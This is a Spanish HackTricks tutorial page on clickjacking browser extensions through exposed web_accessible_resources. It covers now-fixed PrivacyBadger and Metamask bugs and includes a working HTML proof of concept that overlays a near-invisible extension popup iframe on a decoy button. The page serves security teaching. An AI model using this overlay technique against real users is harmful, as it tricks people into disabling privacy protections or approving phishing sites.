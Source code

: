 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

Esta página va a abusar de una vulnerabilidad de ClickJacking en una extensión del navegador.\
Si no sabes qué es ClickJacking, consulta:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Las extensiones contienen el archivo **`manifest.json`** y ese archivo JSON tiene un campo `web_accessible_resources`. Esto es lo que dicen [los documentos de Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources):

> Estos recursos estarían disponibles en una página web a través de la URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, que se puede generar con el **`extension.getURL method`**. Los recursos permitidos se sirven con los encabezados CORS apropiados, por lo que están disponibles a través de mecanismos como XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

Los **`web_accessible_resources`** en una extensión del navegador no solo son accesibles a través de la web; también operan con los privilegios inherentes de la extensión. Esto significa que tienen la capacidad de:

* Cambiar el estado de la extensión
* Cargar recursos adicionales
* Interactuar con el navegador hasta cierto punto

Sin embargo, esta característica presenta un riesgo de seguridad. Si un recurso dentro de **`web_accessible_resources`** tiene alguna funcionalidad significativa, un atacante podría potencialmente incrustar este recurso en una página web externa. Los usuarios desprevenidos que visiten esta página podrían activar inadvertidamente este recurso incrustado. Tal activación podría llevar a consecuencias no deseadas, dependiendo de los permisos y capacidades de los recursos de la extensión.

## Ejemplo de PrivacyBadger

En la extensión PrivacyBadger, se identificó una vulnerabilidad relacionada con el directorio `skin/` declarado como `web_accessible_resources` de la siguiente manera (Consulta la [entrada del blog original](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Esta configuración llevó a un posible problema de seguridad. Específicamente, el archivo `skin/popup.html`, que se renderiza al interactuar con el ícono de PrivacyBadger en el navegador, podría ser incrustado dentro de un `iframe`. Esta incrustación podría ser explotada para engañar a los usuarios y hacer que hagan clic inadvertidamente en "Desactivar PrivacyBadger para este sitio web". Tal acción comprometería la privacidad del usuario al desactivar la protección de PrivacyBadger y potencialmente someter al usuario a un mayor seguimiento. Una demostración visual de esta explotación se puede ver en un ejemplo de video de ClickJacking proporcionado en [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Para abordar esta vulnerabilidad, se implementó una solución sencilla: la eliminación de `/skin/*` de la lista de `web_accessible_resources`. Este cambio mitigó efectivamente el riesgo al asegurar que el contenido del directorio `skin/` no pudiera ser accedido o manipulado a través de recursos accesibles por la web.

La solución fue fácil: **eliminar `/skin/*` de los `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Ejemplo de Metamask

Una [**entrada de blog sobre un ClickJacking en metamask se puede encontrar aquí**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). En este caso, Metamask solucionó la vulnerabilidad verificando que el protocolo utilizado para acceder a él era **`https:`** o **`http:`** (no **`chrome:`** por ejemplo):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Otro ClickJacking solucionado** en la extensión de Metamask fue que los usuarios podían **Click para agregar a la lista blanca** cuando una página era sospechosa de ser phishing debido a `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Como esa página era vulnerable a Clickjacking, un atacante podría abusar de ella mostrando algo normal para hacer que la víctima hiciera clic para agregarla a la lista blanca sin darse cuenta, y luego volver a la página de phishing que será agregada a la lista blanca.

## Ejemplo de Steam Inventory Helper

Consulta la siguiente página para ver cómo un **XSS** en una extensión de navegador se encadenó con una vulnerabilidad de **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Referencias

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Consulta los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
